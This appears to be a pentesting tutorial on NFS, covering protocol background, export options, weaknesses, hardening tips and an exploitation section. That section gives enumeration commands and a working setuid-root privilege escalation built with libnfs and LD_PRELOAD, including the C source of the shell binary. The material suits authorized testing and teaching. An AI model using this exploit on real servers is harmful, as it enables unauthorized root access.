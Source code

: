 ```yaml
--- 
title: "Pentesting Network File System (NFS)"
author: ""
date: 2023-09-17T13:53:46+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

NFS (Network File System) is a distributed file system protocol that allows users on client computers to access files over a network in the same way they would access a local storage. An administrator configures specific locations on the NFS server for data access by clients. 

Developed by Sun Microsystems in 1984, this protocol has evolved through several versions - NFSv2, NFSv3, and NFSv4. The first version was developed to connect unix-like hosts. Then NFSv2 which ran on UDP network protocol was released in 1989. In 1994, NFSv3 was released  to support asynchronous writes, manage 64 bit files and handle errors more effectively. Finally, NFSv4 with a NFSv4.1 minor release changed the narrative integrating security and adding features to communicate with Windows hosts via the Samba protocol.  

NFS service typically runs on `TCP/UDP port 111 and 2049` with `port 111` for mapping RPC program numbers to their respective ports and `port 2049` for establishing connection and data access. It is noteworthy that NFSv4 was designed to work exclusively on `port 2049`. To observe NFS communication on the wire see _NFS version 4 Communication_ traffic flow.
```shell
tcp nfs or port 111 or port 2049 # wireshark capture filter
mkdir $FOLDERNAME
sudo mount -t nfs $IP:/$SHAREDFOLDER  $LOCALFOLDER -o nolock
sudo ls $LOCALFOLDER
sudo umount $LOCALFOLDER
rm -fr $LOCALFOLDER
```
![NFS Communication](/images/nfs/00_nfs-connection.png "NFS version 4 Communication") 
 
**Common Server Application**
+ Unix systems
    - nfs-kernel-server
    - nfs-utils
    - NFS Ganesha
+ Windows systems
    - FS-NFS-Service
    - Allegro NFS Server  

**Common Commands**

| COMMAND | USAGE | DESCRIPTION |
|---|---|---|
| echo | echo '$SHAREPATH $DOMAINorIPorCIDR(server-options)' >> /etc/exports | write share configuration to `/etc/exports` |
| exportfs | exportfs `-a -r -o` server-options | export `/etc/exports` where a:all r:re-export o:options |
| nfsstat | nfsstat `-c -s` | entries display NFS statistics where c:client s:server |
| mount | mount -t $NFS_VERSION $IPorDomain:/$SHAREDFOLDER $LOCALFOLDER -o client-options | **mount** the shared folder on the client machine |
| showmount | showmount `-a -e` $DOMAINorIP | list the shared folder |
| umount | umount $LOCALFOLDER | unmount the shared folder from client machine |

<u>server-options - </u> ro:`read only directory`, rw:`read and write directory`, sync:`synchronous read/write operation`, async:`asynchronous read/write operation`,  no_subtree_check:`disable nested directory listing`, nohide:`enable nested directory listing`, fsid:`assign unique NFSv4 file system`, no_root_squash:`allows client root UID/GID privileges on directory`, root_squash:`disallows client root UID/GID privileges on directory`, all_squash:`maps client UID/GID to nobody`, no_all_squash:`preserves the client UID/GID on directory`, insecure:`allow unprivileged ports for NFS requests`, secure:`allow only privileged ports for NFS requests`.  

<u>client-options - </u> ro:`read only`, rw:`read and write`, noexec:`prevents binary execution`, nosuid:`disables setuid/setguid`, soft:`client return error on access failure`, hard:`client retries on access failure`, tcp:`use TCP connection`, udp:`use UDP connection`, vers=VERSION_NUMBER:`NFS protocol version to use i.e 2,3,4`, sec=SECURITY_MECHANISM:`security flavor to use for authentication i.e sys,kbr5,kbr5i,kbr5p,ntlm`, username=USERNAME:`username to authenticate with`, PASSWORD=PASSWORD:`password of the user to authenticate with`.

**Common Vulnerability**
- Exposure of Sensitive Information to an Unauthorized Actor: [CWE-200](https://www.cvedetails.com/cwe-details/200/Exposure-of-Sensitive-Information-to-an-Unauthorized-Actor.html)
- Improper Access Control: [CWE-284](https://www.cvedetails.com/cwe-details/284/Improper-Access-Control.html)
- Improper Authentication: [CWE-287](https://www.cvedetails.com/cwe-details/287/Improper-Authentication.html)
- Protection Mechanism Failure: [CWE-693](https://www.cvedetails.com/cwe-details/693/Protection-Mechanism-Failure.html)

**Security Best Practices**
- Implement access control mechanism on host and shared directories.
- Deploy NFSv4 with authentication and encryption.
- Deploy NFS servers in  isolated network.

**Exploitation**  
NFS servers are sink for information. The feature of this technology for mounting remote volumes as though they were resident on the local machine brings great ease to the user. While accessing the exported directory does not grant a full shell on the remote system, an attacker can browser an improperly configured NFS server to discover juicy information that may enable access to the remote server and even escalate their privilege. Hence, an attacker's inclination when an NFS service is encountered can include:
- What valuable information they can find on all the directories they are able to access.
- Whether they can execute a malicious file with elevated privilege via the remote systems shell.

```shell
## SERVICE ENUMERATION ##
# with nmap
ls /usr/share/nmap/scripts/nfs*    # list nmap ftp scripts
'SNIP
/usr/share/nmap/scripts/nfs-ls.nse
/usr/share/nmap/scripts/nfs-showmount.nse
/usr/share/nmap/scripts/nfs-statfs.nse
'
nmap -p 111,2049 -sV $IP   # show version
nmap -p 111,2049 --script nfs-statfs $IP    # show mount point status

# with metasploit
search scanner nfs
use auxiliary/scanner/nfs/nfsmount   # show mount points
show options
set rhosts $REMOTEIP
set lhost $LOCALIP
run
 
## CREDENTIAL ENUMERATION ##

## PATH ENUMERATION ##
# with nmap
nmap -p 111,2049 --script nfs-ls $IP    # list mounted folder content

# with nfs-common utilities
showmount -e $IP   # show exported folder and permission

## HOST ENUMERATION/FOOTPRINTING ##
# mount the share locally
mkdir $LOCALFOLDERNAME
sudo mount -t nfs $IP:/$SHAREDFOLDERNAME $LOCALFOLDERNAME -o $SERVER_OPTIONS
nfsstat -c   # show nfs client operation details
nfsstat -s   # show nfs server operation details

# create a user and group to match the server's
stat $LOCALFOLDERNAME/*    # list access attritube of files in shared folder
sudo useradd -u $USERID $USERNAME    # create user
sudo groupadd -g $GROUPID $GROUPNAME    # create group
sudo usermod -aG $GROUPNAME $USERNAME    # add user to group
sudo passwd $USERID    # on prompt: enter a password and confirm the password
su $USERID    # on prompt: submit password

# explore the share 
sudo mount -t nfs $IP:/$SHAREDFOLDERNAME $LOCALFOLDERNAME -o $SERVER_OPTIONS  # re mount
cd $LOCALFOLDERNAME      # now change into local  directory
ls $LOCALFOLDERNAME

# escalate privileges
# build and compile libnfs
Version=5.0.2
wget https://github.com/sahlberg/libnfs/archive/refs/tags/libnfs-${Version}.zip
unzip libnfs-${Version}.zip
mv libnfs-libnfs-${Version} libnfs; cd libnfs
./bootstrap && ./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/

# develop and compile the exploit
cat << 'EOF' > pwn.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/usr/bin/bash");
}
EOF
gcc -fPIC -shared -nostartfiles -o pwn pwn.c

# upload pwn,ld_nfs.so,lib/.libs/libnfs.so,lib/.libs/libnfs.so.14 to target
sudo cp {pwn,ld_nfs.so,lib/.libs/libnfs.so,lib/.libs/libnfs.so.14} $LOCALFOLDER

# prepare the exploit
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so cp pwn nfs://$IP:/$SHAREDFOLDER/pwn
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://$IP:/$SHAREDFOLDER/pwn
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://$IP:/$SHAREDFOLDER/pwn
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://$IP:/$SHAREDFOLDER/pwn

# run the exploit
$LOCALFOLDER/pwn

# clean up
sudo umount -f $LOCALFOLDER    # unmount the share 
rm -fr $LOCALFOLDER    # remove local mount folder
sudo userdel $USERNAME    # delete the user
sudo groupdel $GROUPNAME    # delete the group
```

**References**  
- https://cloudinfrastructureservices.co.uk/what-is-nfs-network-file-system-how-it-works/
- https://nfs.sourceforge.net/nfs-howto/
- https://learn.microsoft.com/en-us/windows-server/storage/nfs/deploy-nfs
- https://meowmeowattack.github.io/notes/ports-protocols/nfs/
- https://www.giac.org/paper/gsec/8216/nfs-security-trusted-untrusted-environments/112913
